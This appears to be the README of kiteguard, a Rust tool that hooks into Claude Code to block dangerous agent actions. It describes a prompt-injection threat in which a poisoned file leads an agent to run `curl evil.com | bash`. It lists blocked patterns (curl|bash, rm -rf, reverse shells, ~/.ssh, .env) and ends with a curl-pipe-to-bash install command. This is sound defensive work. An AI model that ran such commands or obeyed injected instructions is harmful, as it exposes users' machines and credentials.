

<p align="center">
  
</p>

# kiteguard

> Runtime security guardrails for Claude Code and AI coding agents

**kiteguard** watches every move your AI agent makes — and stops the dangerous ones.

---

## The problem

Claude Code is an agent harness — it autonomously runs tools on your machine with no confirmation required. That means it can:

- Execute arbitrary shell commands
- Read your entire codebase
- Fetch external URLs
- Create and modify files

A single poisoned README or malicious web page can instruct Claude to run `curl evil.com | bash` — and without guardrails, it will.

## The solution

kiteguard is a single Rust binary that hooks into Claude Code's native lifecycle system. It intercepts at **four points** in every session — before damage can happen.

```
Prompt → [UserPromptSubmit] → Claude → [PreToolUse] → Tool → [PostToolUse] → Response → [Stop]
```

## Key features

- 🚫 **Blocks dangerous commands** — `curl|bash`, `rm -rf`, reverse shells
- 🔒 **Protects sensitive files** — `~/.ssh`, `.env`, credentials
- 🛡️ **Detects prompt injection** — embedded instructions in files and web pages
- 🔍 **Prevents PII leakage** — stops SSNs, credit cards, emails reaching the API
- 📋 **Audit log** — every event recorded locally
- 🔔 **Webhook support** — send events to your SIEM or dashboard
- ⚡ **~2ms overhead** — written in Rust, zero runtime dependencies

## Quick install

```bash
curl -sSL https://raw.githubusercontent.com/DhivakaranRavi/kiteguard/main/scripts/install.sh | bash
```

→ [Get started](getting-started/installation.md)
